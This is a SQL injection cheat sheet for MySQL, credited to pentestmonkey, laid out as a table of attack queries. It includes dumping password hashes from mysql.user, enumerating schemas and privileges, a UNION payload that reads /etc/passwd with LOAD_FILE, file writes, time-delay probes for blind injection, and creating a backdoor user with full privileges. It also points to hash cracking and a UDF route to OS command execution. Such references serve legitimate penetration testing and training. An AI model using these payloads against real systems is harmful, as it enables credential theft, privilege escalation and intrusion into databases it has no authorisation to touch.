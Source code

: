 

Some useful syntax reminders for SQL Injection into MySQL databases.

Some of the queries in the table below can only be run by an admin. These are marked with “– priv” at the end of the query.

| Version | SELECT @@version |
| --- | --- |
| Comments | SELECT 1; #comment   SELECT /\*comment\*/1; |
| Current User | SELECT user();   SELECT system\_user(); |
| List Users | SELECT user FROM mysql.user; — priv |
| List Password Hashes | SELECT host, user, password FROM mysql.user; — priv |
| Password Cracker | [John the Ripper](http://www.openwall.com/john/) will crack MySQL password hashes. |
| List Privileges | SELECT grantee, privilege\_type, is\_grantable FROM information\_schema.user\_privileges; — list user privsSELECT host, user, Select\_priv, Insert\_priv, Update\_priv, Delete\_priv, Create\_priv, Drop\_priv, Reload\_priv, Shutdown\_priv, Process\_priv, File\_priv, Grant\_priv, References\_priv, Index\_priv, Alter\_priv, Show\_db\_priv, Super\_priv, Create\_tmp\_table\_priv, Lock\_tables\_priv, Execute\_priv, Repl\_slave\_priv, Repl\_client\_priv FROM mysql.user; — priv, list user privsSELECT grantee, table\_schema, privilege\_type FROM information\_schema.schema\_privileges; — list privs on databases (schemas)SELECT table\_schema, table\_name, column\_name, privilege\_type FROM information\_schema.column\_privileges; — list privs on columns |
| List DBA Accounts | SELECT grantee, privilege\_type, is\_grantable FROM information\_schema.user\_privileges WHERE privilege\_type = ‘SUPER’;SELECT host, user FROM mysql.user WHERE Super\_priv = ‘Y’; # priv |
| Current Database | SELECT database() |
| List Databases | SELECT schema\_name FROM information\_schema.schemata; — for MySQL >= v5.0   SELECT distinct(db) FROM mysql.db — priv |
| List Columns | SELECT table\_schema, table\_name, column\_name FROM information\_schema.columns WHERE table\_schema!= ‘mysql’ AND table\_schema!= ‘information\_schema’ |
| List Tables | SELECT table\_schema,table\_name FROM information\_schema.tables WHERE table\_schema!= ‘mysql’ AND table\_schema!= ‘information\_schema’ |
| Find Tables From Column Name | SELECT table\_schema, table\_name FROM information\_schema.columns WHERE column\_name = ‘username’; — find table which have a column called ‘username’ |
| Select Nth Row | SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0   SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0 |
| Select Nth Char | SELECT substr(‘abcd’, 3, 1); # returns c |
| Bitwise AND | SELECT 6 & 2; # returns 2   SELECT 6 & 1; # returns 0 |
| ASCII Value -> Char | SELECT char(65); # returns A |
| Char -> ASCII Value | SELECT ascii(‘A’); # returns 65 |
| Casting | SELECT cast(‘1’ AS unsigned integer);   SELECT cast(‘123’ AS char); |
| String Concatenation | SELECT CONCAT(‘A’,’B’); #returns AB   SELECT CONCAT(‘A’,’B’,’C’); # returns ABC |
| If Statement | SELECT if(1=1,’foo’,’bar’); — returns ‘foo’ |
| Case Statement | SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; # returns A |
| Avoiding Quotes | SELECT 0x414243; # returns ABC |
| Time Delay | SELECT BENCHMARK(1000000,MD5(‘A’));   SELECT SLEEP(5); # >= 5.0.12 |
| Make DNS Requests | Impossible? |
| Command Execution | If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar). The.so file should contain a User Defined Function (UDF). [raptor\_udf.c](http://www.0xdeadbeef.info/exploits/raptor_udf.c) explains exactly how you go about this. Remember to compile for the target architecture which may or may not be the same as your attack platform. |
| Local File Access | …’ UNION ALL SELECT LOAD\_FILE(‘/etc/passwd’) — priv, can only read world-readable files.   SELECT \* FROM mytable INTO dumpfile ‘/tmp/somefile’; — priv, write to file system |
| Hostname, IP Address | SELECT @@hostname; |
| Create Users | CREATE USER test1 IDENTIFIED BY ‘pass1’; — priv |
| Delete Users | DROP USER test1; — priv |
| Make User DBA | GRANT ALL PRIVILEGES ON \*.\* TO test1@’%’; — priv |
| Location of DB files | SELECT @@datadir; |
| Default/System Databases | information\_schema (>= mysql 5.0)   mysql |


**BY: pentestmonkey**